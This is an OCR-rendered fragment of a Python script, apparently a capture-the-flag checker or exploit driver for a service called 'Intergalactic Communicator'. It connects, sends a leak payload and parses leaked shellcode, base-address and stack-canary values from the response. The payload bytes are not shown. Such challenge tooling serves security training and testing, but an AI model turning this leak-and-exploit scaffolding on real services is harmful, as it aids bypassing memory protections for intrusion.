```py
    if read_response:
        size = int.from_bytes(sock.recv(4), 'little')
        resp = sock.recv(size + 1)

        if health:
            if b'Welcome to the Intergalactic Communicator' not in resp:
                sock.close()
                sys.exit(1)
            return True

        if b'canary:' in resp:
            match = re.findall(rb'shellcode:([0-9A-Fa-fXx]*?):base:([0-9A-Fa-fXx]*?):canary:([0-9A-Fa-fXx]*?):', resp)
            return True

        return False


def get_connection(ip: str, port: int) -> socket.socket:
    sock = None
    while sock is None:
        try:
            sock = socket.create_connection((ip, port))
        except ConnectionRefusedError:
            continue
    return sock


def main():
    conn = get_connection(server, port)
    try:
        # Checking for welcome message
        if not send_exploit(conn, check, True, True):
            conn.close()
            sys.exit(1)

        # Sending leak payload
        send_exploit(conn, leak, True)

        # Checking if leaked pointers
        if not send_exploit(conn, read, True):
            conn.close()
            sys.exit(1)
    except:
        conn.close()
        sys.exit(1)
    conn.close()
    sys.exit(0)


if __name__ == '__main__':
    main()
```
